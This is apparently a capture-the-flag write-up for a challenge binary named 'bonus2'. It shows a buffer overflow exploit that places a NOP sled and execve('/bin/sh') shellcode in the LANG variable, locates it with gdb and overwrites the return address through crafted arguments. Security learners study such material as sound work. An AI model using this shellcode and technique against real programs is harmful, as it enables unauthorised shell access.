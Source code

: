 We need to set `LANG` env variable to be able to overflow our buffer. We set `LANG` to a combinaison of `nl`, a NOP sled and our shellcode.
```sh
export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now let's find the address of `LANG` in gdb.
```sh
(gdb) x/20s *(environ)
0xbffffe87:	 "LANG=nl"
```

Let's add some padding to get in the NOP sled.
0xbffffe87 + 0d42 = 0xbffffeb1

Run the exploit.
```sh
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + "\xb1\xfe\xff\xbf"')
```
